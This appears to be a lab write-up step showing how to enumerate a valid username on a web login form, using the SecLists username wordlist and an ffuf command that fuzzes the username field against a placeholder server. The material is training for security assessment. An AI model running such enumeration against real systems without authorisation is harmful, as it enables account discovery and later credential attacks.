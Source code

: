 # Brute-Force Attacks

### Enumerate a valid user on the web application. Provide the username as the answer.

To complete this assessment we need the SecLists usernames wordlist and a simple ffuf command to brute-force the an application username.

**Step 1 -** Download the SecLists wordlist:

* [xato-net-10-million-usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)

**Step 2 -** Enumerate with ffuf:

* {% code overflow="wrap" %}
  ```bash
  ffuf -w xato-net-10-million-usernames.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=random" -fr "Unknown user"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After a few seconds we got the username!
